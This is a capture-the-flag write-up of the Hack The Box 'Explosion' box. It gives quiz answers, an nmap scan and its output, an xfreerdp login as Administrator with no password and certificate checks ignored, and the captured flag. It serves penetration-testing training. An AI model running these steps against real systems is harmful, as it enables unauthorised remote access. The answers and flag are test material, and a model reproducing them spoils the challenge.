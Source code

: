 # Explosion
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Explosion
* Topic: Account Misconfiguration, xfreerdp
* Difficulty: Very easy
* Date: 15-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the 3-letter acronym RDP stand for?
 - **remote desktop protocol**
2. What is a 3-letter acronym that refers to interaction with the host through a command line interface?
- **cli**
3. What about graphical user interface interactions? 
- **gui**
4. What is the name of an old remote access tool that came without encryption by default? 
- **telnet**
5. What is the concept used to verify the identity of the remote host with SSH connections?
- **public-key cryptography**
6. What is the name of the tool that we can use to initiate a desktop projection to our host using the terminal?
- **rdesktop**
7. What is the name of the service running on port 3389 TCP? 
- **ms-wbt-server**
8. What is the switch used to specify the target host's IP address when using xfreerdp?
- **/v:**

---
## Flag:
First, we need to scan the target with `nmap`.

Command:

`nmap -n -sC -sV 10.129.92.232`

`-n`: No DNS look up (Good [OPSEC](https://en.wikipedia.org/wiki/Operations_security)).

`-sC`: Run scripts during scan.

`-sV`: Try to detect the version of running services.

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.92.232 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 13:50 EDT
Nmap scan report for 10.129.92.232
Host is up (0.069s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-04-15T17:50:27+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-04-14T17:49:40
|_Not valid after:  2022-10-14T17:49:40
|_ssl-date: 2022-04-15T17:50:35+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-15T17:50:31
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 22.03 seconds
```

We can use [xfreerdp](https://linux.die.net/man/1/xfreerdp) to connect to the host.

Command:

`xfreerdp /v:10.129.92.232 /u:Administrator /cert:ignore`

`/v:`: The host we want to connect to.

`/u:`: The user we want to log in as.

`/cert:`: Ignore all kind of certificates.

```console
┌──(kali㉿kali)-[~]
└─$ xfreerdp /v:10.129.92.232 /u:Administrator /cert:ignore
Password: 
[10:18:16:687] [89007:89008] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[10:18:16:687] [89007:89008] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_RGB16
[10:18:16:733] [89007:89008] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[10:18:19:505] [89007:89008] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
^C[10:21:06:676] [89007:89007] [ERROR][com.freerdp.utils] - Caught signal 'Interrupt' [2]
[10:21:06:677] [89007:89007] [ERROR][com.freerdp.utils] - 0: /lib/x86_64-linux-gnu/libwinpr2.so.2(winpr_backtrace+0x50) [0x7f32435efc30]

(...)
```

A new window appears. We've connected to a computer running Windows Server 2019.

The flag is visible on the desktop.

![](./attachments/Pasted%20image%2020220415162356.png)

**Flag:** `951fa96d7830c451b536be5a6be008a0`

---
**Tags:** [[Hack The Box]]